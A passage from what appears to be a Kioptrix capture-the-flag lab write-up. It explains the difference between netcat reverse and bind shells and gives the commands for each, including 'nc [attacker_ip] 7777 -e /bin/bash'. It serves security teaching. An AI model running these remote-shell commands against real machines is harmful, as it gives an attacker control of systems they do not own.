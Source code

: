    ![setting7](../assets/img/kioptrix/Screenshot%202024-07-02%20at%2012.12.20.png)

## Exploitation

### What is (netcat) reverse shell?

**The target(victim) is connecting to the attack box that is listening.** That means attacker's machine should be a server and a victim should be a client. An attacker opens up a port for communication and waits for incoming connection from the victim.

`nc -lvnp 7777` (attacker's machine) opening port from attacker

TCP connection port 7777

`nc [attacker_ip] 7777 -e /bin/bash` (victim's machine) connecting to the attacker's opened port

### What is (netcat) bind shell?

**The attacker connects to a listening port on the victim's machine.** Attacker's machine should be a client and the victim's machine should be server. So a victim opens up a port and waits for the client(attacker) to connect to the opened port. So attacker can make commands remotely on the victim's machine.

`nc -lvnp 7777 -e /bin/bash` (victim's machine) On the victim's machine, the attacker would typically execute a command for connection

TCP connection port 7777

`nc [victim_ip] 7777` (attacker's machine) opening port
